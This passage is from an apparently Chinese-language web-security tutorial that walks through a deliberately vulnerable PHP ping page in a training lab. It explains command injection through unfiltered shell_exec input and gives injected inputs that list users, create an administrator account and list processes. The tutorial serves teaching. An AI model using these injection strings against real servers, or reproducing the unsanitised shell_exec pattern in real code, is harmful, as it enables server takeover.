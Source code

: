 if( isset( $_POST[ "Submit" ]  ) ) {
 // Get input
 $target = $_REQUEST[ "ip" ];

 // Determine OS and execute the ping command.
 if( stristr( php_uname( "s" ), "Windows NT" ) ) {
  // Windows
  $cmd = shell_exec（ "ping  " . $target ）;
 }
 else {
  // *nix
  $cmd = shell_exec（ "ping  -c 4 " . $target ）;
 }

 // Feedback for the end user
 $html .= "＜pre&gt;{$cmd}＜/pre&gt;";
}

?&gt;
</code></pre><p>可以看到，这里的数据是以post方式提交过来的，然后被赋值给了变量<code>$target</code>。
接下来有一个<code>if</code>语句，判断条件是<code>stristr(php_uname("s"), "Windows NT")</code>，这是用来判断当前的系统是否是Windows，因为Windows和Linux下的<code>ping</code>命令执行参数是不同的。
再下面是将函数<code>shell_exec（ "ping " . $target ）</code>的值赋值给变量<code>$cmd</code>，并输出<code>$cmd</code>的值，其实也就是在执行<code>shell_exec（ "ping " . $target ）</code>函数，因而<code>shell_exec（）</code>函数就是这里的核心了。
<code>shell_exec（）</code>函数的作用就是可以在PHP中去执行操作系统命令，因而如果不对用户输入的命令进行过滤，那么理论上就可以执行任意系统命令，也就相当于直接获得了系统级的Shell，因而命令包含漏洞的威力相比SQL注入要大多了。</p>
<p>比如我们在文本框中输入<code>127.0.0.1 | net user</code>，实际上就是通过管道符<code>|</code>去执行了<code>net user</code>命令。原理在下面介绍，那么我们完全可以继续执行<code>127.0.0.1 | net user test 123 /add</code>、<code>127.0.0.1 | net localgroup administrators test /add</code>命令，从而拿下整个服务器。（提权相关命令会在以后的课程里讲到）。</p>
<p>那么我们在这里仅仅做个漏洞的演示，不进行提权操作，尝试在输入框输入以下命令：</p>
<pre><code>127.0.0.1 &amp; tasklist
</code></pre><p>（<code>tasklist</code>命令用于列出进程表）
分析得知，其实后端服务器执行的命令是：</p>
<pre><code>ping 127.0.0.1 &amp; tasklist
</code></pre><p>于是实际测试如我们料想，<code>tasklist</code>命令也被执行：</p>
<p><img src="picture/img (88).png" alt="Alt text"></p>
<p>我们贴出执行结果，这是<code>ping</code>命令和<code>tasklist</code>两条命令执行后的结果：</p>
<pre><code>Pinging 127.0.0.1 with 32 bytes of data:
